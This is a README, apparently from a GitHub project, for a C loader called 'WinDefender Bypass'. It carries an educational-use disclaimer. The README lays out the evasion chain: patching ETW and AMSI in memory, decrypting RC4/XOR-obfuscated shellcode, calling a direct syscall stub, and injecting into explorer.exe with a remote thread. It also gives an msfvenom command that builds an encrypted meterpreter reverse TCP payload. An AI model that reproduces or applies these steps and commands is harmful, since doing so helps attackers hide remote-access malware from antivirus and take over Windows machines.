 # WinDefender Bypass

> **Disclaimer:** This project is provided **for educational purposes only**.  
> Use it at your own risk. The author assumes **no responsibility** for any misuse or damages caused by this code. By using it, you agree that it is intended solely to study how common payloads can evade active defenses and to improve defensive techniques.

---

## Overview

**Winefender Bypass** demonstrates a multi-layered evasion loader in C that:

1. **Disables telemetry**  
   - Patches `EtwEventWrite` in `ntdll.dll`  
   - Patches `AmsiScanBuffer` in `amsi.dll`  

2. **Decodes a polymorphic shellcode**  
   - **10 iterations** of **`x64/xor_dynamic`**  
   - Followed by **RC4 encryption** with key `"UltraSecreta2025!"`  
   - Decryption happens **in-place at runtime**  

3. **Uses a manual syscall stub**  
   - Builds its own `NtWriteVirtualMemory` stub (`mov r10, rcx; mov eax,0x3A; syscall; ret`)  
   - Bypasses user‑mode API hooks  

4. **Injects and executes** in a **trusted process** (`explorer.exe`)  
   - Enumerates processes via `Toolhelp32Snapshot`  
   - Opens a handle to `explorer.exe` (`OpenProcess`)  
   - Allocates RWX memory in that process (`VirtualAllocEx`)  
   - Writes decrypted shellcode via the syscall stub  
   - Launches a remote thread (`CreateRemoteThread`)  

By moving the entire staging and execution into **Explorer**—a Microsoft‑signed process—the loader evades common heuristics and Windows Defender’s staged‑HTTP and in‑memory detections.

---

## Files

- **`loader.c`** – the full C source of the injector/loader (missing hardcoded encrypted shellcode) 
- **`README.md`** – this file  

---

## Building

You’ll need a Windows environment with a MinGW/MSYS2 toolchain:

```bash
# Compile loader.c
gcc loader.c -o loader.exe -lkernel32 -luser32

# Generate the shellcode using Msfvenom
msfvenom \
  -p windows/x64/meterpreter_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT \
  -a x64 --platform windows \
  -e x64/xor_dynamic -i 10 \
  --encrypt rc4 --encrypt-key UltraSecreta2025! \
  -b "\x00\x0a\x0d" \
  -f c \
  --var-name encrypted > shellcode.txt
```
